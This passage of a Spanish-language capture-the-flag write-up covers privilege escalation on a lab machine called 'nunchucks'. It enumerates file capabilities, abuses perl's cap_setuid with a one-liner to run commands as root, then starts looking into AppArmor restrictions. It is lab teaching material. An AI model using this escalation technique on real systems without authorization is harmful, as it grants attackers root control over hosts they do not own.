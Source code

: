 Ya tenemos un `consola` completamente `interactiva`

```
david@nunchucks:/var/www/store.nunchucks$ whoami
david
```

## Privilege Escalation

Al listar `capabilities` nos damos cuenta que con `perl` podríamos `escalar privilegios`

```
david@nunchucks:/tmp/scripts$ getcap -r / 2>/dev/null
/usr/bin/perl = cap_setuid+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
```

Debido a que `perl` tiene esa capabilities podemos ejecutar comandos como usuario `root`, sin embargo, parece que algunos `binarios` no los podemos `ejecutar`

```
david@nunchucks:~$ perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "whoami";'
root
```

Esto se parece bastante a `SELinux`, no encontramos nada en el sistema que diga que está instalado. Buscando `alternativas` a `SELinux` he encontrado `AppArmor`, si buscamos en el sistema nos daremos cuenta de que se encuentra `instalado`

```
find / -type f -name '*apparmor*' 2>/dev/null
/usr/lib/apparmor/rc.apparmor.functions
/usr/lib/apparmor/apparmor.systemd
/usr/lib/systemd/system/apparmor.service
/usr/lib/python3/dist-packages/apparmor-2.13.3.egg-info
/usr/lib/python3/dist-packages/sos/report/plugins/__pycache__/apparmor.cpython-38.pyc
/usr/lib/python3/dist-packages/sos/report/plugins/apparmor.py
/usr/lib/x86_64-linux-gnu/libapparmor.so.1.6.1
/usr/sbin/apparmor_parser
/usr/share/man/man5/apparmor.d.5.gz
/usr/share/man/man5/apparmor.vim.5.gz
/usr/share/man/man7/apparmor.7.gz
/usr/share/man/man8/apparmor_parser.8.gz
/usr/share/man/man8/apparmor_status.8.gz
/usr/share/vim/addons/syntax/apparmor.vim
/usr/share/vim/registry/vim-apparmor.yaml
/usr/share/apport/package-hooks/source_apparmor.py
/usr/share/lintian/overrides/apparmor-notify
/usr/share/lintian/overrides/apparmor
/usr/share/lintian/overrides/python3-apparmor
/usr/share/lintian/overrides/libapparmor-perl
/usr/share/lintian/overrides/apparmor-easyprof
/usr/share/lintian/overrides/python3-libapparmor
/usr/share/lintian/overrides/libapparmor1
/usr/share/lintian/overrides/apparmor-utils
/usr/src/linux-headers-5.4.0-81-generic/include/config/security/apparmor.h
/usr/src/linux-headers-5.4.0-81-generic/include/config/default/security/apparmor.h
```
